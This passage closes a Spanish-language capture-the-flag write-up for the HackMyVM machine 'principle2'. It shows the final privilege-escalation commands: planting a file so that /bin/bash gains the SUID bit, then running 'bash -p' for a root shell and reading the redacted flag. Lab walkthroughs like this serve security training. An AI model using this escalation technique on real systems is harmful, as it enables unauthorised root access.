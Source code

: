 ~~~bash
melville@principle2:~$ cp report /usr/local/share/report
melville@principle2:~$ watch -n 1 ls -l /bin/bash
~~~

Cuando ya vemos `-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash` es hora de convertirnos en root:

~~~bash
melville@principle2:~$ bash -p
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
⠀⠀⠀⠀⠀⣠⣴⣶⣿⣿⠿⣷⣶⣤⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣴⣶⣷⠿⣿⣿⣶⣦⣀⠀⠀⠀⠀⠀
⠀⠀⠀⢀⣾⣿⣿⣿⣿⣿⣿⣿⣶⣦⣬⡉⠒⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠚⢉⣥⣴⣾⣿⣿⣿⣿⣿⣿⣿⣧⠀⠀⠀⠀
⠀⠀⠀⡾⠿⠛⠛⠛⠛⠿⢿⣿⣿⣿⣿⣿⣷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣾⣿⣿⣿⣿⣿⠿⠿⠛⠛⠛⠛⠿⢧⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠻⣿⣿⣿⣿⣿⡄⠀⠀⠀⠀⠀⠀⣠⣿⣿⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⢿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⢰⣿⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣠⣤⠶⠶⠶⠰⠦⣤⣀⠀⠙⣷⠀⠀⠀⠀⠀⠀⠀⢠⡿⠋⢀⣀⣤⢴⠆⠲⠶⠶⣤⣄⠀⠀⠀⠀⠀⠀⠀
⠀⠘⣆⠀⠀⢠⣾⣫⣶⣾⣿⣿⣿⣿⣷⣯⣿⣦⠈⠃⡇⠀⠀⠀⠀⢸⠘⢁⣶⣿⣵⣾⣿⣿⣿⣿⣷⣦⣝⣷⡄⠀⠀⡰⠂⠀
⠀⠀⣨⣷⣶⣿⣧⣛⣛⠿⠿⣿⢿⣿⣿⣛⣿⡿⠀⠀⡇⠀⠀⠀⠀⢸⠀⠈⢿⣟⣛⠿⢿⡿⢿⢿⢿⣛⣫⣼⡿⣶⣾⣅⡀⠀
⢀⡼⠋⠁⠀⠀⠈⠉⠛⠛⠻⠟⠸⠛⠋⠉⠁⠀⠀⢸⡇⠀⠀⠄⠀⢸⡄⠀⠀⠈⠉⠙⠛⠃⠻⠛⠛⠛⠉⠁⠀⠀⠈⠙⢧⡀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⡇⢠⠀⠀⠀⢸⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⣿⡇⠀⠀⠀⠀⢸⣿⣷⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⠟⠁⣿⠇⠀⠀⠀⠀⢸⡇⠙⢿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠰⣄⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣾⠖⡾⠁⠀⠀⣿⠀⠀⠀⠀⠀⠘⣿⠀⠀⠙⡇⢸⣷⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⣰⠄⠀
⠀⠀⢻⣷⡦⣤⣤⣤⡴⠶⠿⠛⠉⠁⠀⢳⠀⢠⡀⢿⣀⠀⠀⠀⠀⣠⡟⢀⣀⢠⠇⠀⠈⠙⠛⠷⠶⢦⣤⣤⣤⢴⣾⡏⠀⠀
⠀⠀⠈⣿⣧⠙⣿⣷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠘⠛⢊⣙⠛⠒⠒⢛⣋⡚⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⡿⠁⣾⡿⠀⠀⠀
⠀⠀⠀⠘⣿⣇⠈⢿⣿⣦⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⣿⣿⡿⢿⣿⣿⣿⣆⠀⠀⠀⠀⠀⠀⠀⢀⣼⣿⡟⠁⣼⡿⠁⠀⠀⠀
⠀⠀⠀⠀⠘⣿⣦⠀⠻⣿⣷⣦⣤⣤⣶⣶⣶⣿⣿⣿⣿⠏⠀⠀⠻⣿⣿⣿⣿⣶⣶⣶⣦⣤⣴⣿⣿⠏⢀⣼⡿⠁⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠘⢿⣷⣄⠙⠻⠿⠿⠿⠿⠿⢿⣿⣿⣿⣁⣀⣀⣀⣀⣙⣿⣿⣿⠿⠿⠿⠿⠿⠿⠟⠁⣠⣿⡿⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠈⠻⣯⠙⢦⣀⠀⠀⠀⠀⠀⠉⠉⠉⠉⠉⠉⠉⠉⠉⠉⠉⠉⠀⠀⠀⠀⠀⣠⠴⢋⣾⠟⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠙⢧⡀⠈⠉⠒⠀⠀⠀⠀⠀⠀⣀⠀⠀⠀⠀⢀⠀⠀⠀⠀⠀⠐⠒⠉⠁⢀⡾⠃⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠳⣄⠀⠀⠀⠀⠀⠀⠀⠀⠻⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀⠀⠀⠀⣠⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢦⡀⠀⠀⠀⠀⠀⠀⠀⣸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢀⡴⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⠃⠀⠀⠀


CONGRATULATIONS hacker!!

The flag is:
YXXXXXXXXXXXXXXX&
~~~

Y con esto máquina terminada, espero que la hayáis disfrutado. Cualquier duda o sugerencia podéis encontrarme en Discord oficial de HackMyVM o directamente en LinkedIn
